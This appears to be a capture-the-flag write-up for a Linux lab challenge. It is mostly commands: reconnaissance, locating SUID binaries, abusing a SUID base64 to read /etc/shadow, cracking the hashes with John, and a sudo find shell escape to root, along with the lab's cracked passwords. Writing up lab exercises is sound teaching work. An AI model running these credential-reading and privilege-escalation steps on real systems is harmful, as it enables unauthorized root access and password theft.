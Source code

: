 # 🎯 **Linux Capstone Challenge**

---

## 🛰️ **Reconnaissance**

```bash
bash
CopyEdit
# List users with home directories
cat /etc/passwd | grep home

# Check system information
uname -a

# Check detailed OS version
cat /proc/version

# Check allowed sudo permissions
sudo -l

```

[](https://github.com/user-attachments/assets/0d9e9da3-e1ec-41c2-a78d-1482eaf09fc9)

---

## 🔍 **Finding SUID Binaries**

```bash
bash
CopyEdit
# Find all files with SUID bit set
find / -type f -perm -04000 -ls 2>/dev/null

# Alternative method (more specific)
find / -type f -perm -u=s -ls 2>/dev/null

```

[](https://github.com/user-attachments/assets/c1563691-76ef-44f5-bd2a-55e3f7b5759f)

---

## 🧬 **Exploiting Base64 SUID Binary**

Since `base64` has SUID permissions, we can **read protected files**:

```bash
bash
CopyEdit
# Read /etc/passwd
LFILE=/etc/passwd
base64 "$LFILE" | base64 --decode

# Read /etc/shadow
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode

```

➡️ **Save** the output into two files: `passwd.txt` and `shadow.txt`.

---

## 🛠️ **Cracking Passwords with John**

First, create a password hash file:

```bash
bash
CopyEdit
unshadow passwd.txt shadow.txt > passwords.txt

```

Then crack it using John and a wordlist:

```bash
bash
CopyEdit
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt

```

### ✅ Passwords Found:

| Username | Password |
| --- | --- |
| missy | Password1 |
| leonard | Penny123 |

[](https://github.com/user-attachments/assets/188f95e6-8865-4562-bc86-9afc3e280557)

---

## 🔐 **Switch User to Missy**

```bash
bash
CopyEdit
su missy
cd /home/missy/Documents
cat flag1.txt

```

[](https://github.com/user-attachments/assets/5d3a6a57-4a02-4bfe-923d-4a25c10f8dfe)

---

## 🚀 **Privilege Escalation (Missy User)**

Check sudo permissions:

```bash
bash
CopyEdit
sudo -l

```

**Exploit via `find` command:**

```bash
bash
CopyEdit
sudo find . -exec /bin/sh \; -quit

```

Move to root directory and capture second flag:

```bash
bash
CopyEdit
cd /home/rootflag
cat flag2.txt

```

[](https://github.com/user-attachments/assets/1002eda2-ead5-450c-8248-0460b91e535b)

---

## 🛤️ **Alternative Exploit Path**

Another way to get a root shell via `find`:

[](https://github.com/user-attachments/assets/9a113d36-4cdc-4e1d-97ad-7c0fbdb62dbc)

---

# ⚡ Summary

- ✅ Recon → Find users and OS
- ✅ SUID → Exploit base64 to read protected files
- ✅ Passwords → Cracked with John
- ✅ Privilege Escalation → Using `find` with sudo rights
- ✅ Flags Captured!
